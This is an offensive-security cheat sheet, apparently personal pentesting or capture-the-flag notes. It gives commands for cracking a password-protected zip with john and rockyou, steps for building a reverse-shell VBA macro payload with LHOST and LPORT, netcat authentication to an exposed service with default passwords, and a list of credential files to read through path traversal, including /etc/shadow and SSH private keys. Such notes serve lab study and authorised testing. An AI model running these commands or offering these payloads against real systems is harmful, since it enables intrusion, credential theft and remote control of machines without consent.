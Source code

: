 #### Cracking Zip File

```bash
zip2john protected.zip > zip.hash
john -w=/usr/share/wordlists/rockyou.txt zip.hash
7z x protected.zip
```

#### Name Mash

If you have first and last names, you can use this program to create different popular formats for usernames, "https://gist.github.com/superkojiman/11076951".


#### Getting a Reverse Shell with VBA Macros

```bash
# With Minitrue

cd /opt/Minitrue
./minitrue
select a payload: windows/x64/shell_reverse_tcp
select the payload type: VBA Macro
LHOST=$yourIP
LPORT=$yourPort
Payload encoder: None
Select or enter file name (without extensions): hacker
```

#### Auth through nc bind

If you bind to a port, such as Cassandra on port 8021, and you get the following,

```bash
kali@kali:~$ nc 192.168.120.155 8021
Content-Type: auth/request
...
help

Content-Type: command/reply
Reply-Text: -ERR command not found
...
```

you can authenticate by typing:

```bash
auth <default password>
```

#### Interesting Files for File Inclusion, Path Traversal

```bash
/etc/passwd
/etc/shadow
/root/.ssh/id_rsa
/root/.ssh/id_ecdsa
/root/.ssh/id_ed25519
/home/user/.ssh/id_rsa
/home/user/.ssh/id_ecdsa
/home/user/.ssh/id_ed25519
/proc/self/environ
/proc/self/cmdline
/var/www/html/index.php # Or any interesting files you didn't have access to with gobuster
/home/user/.bash_history
/root/.bash_history
/etc/ssh/sshd_config # See who's allowed to ssh into the box
```
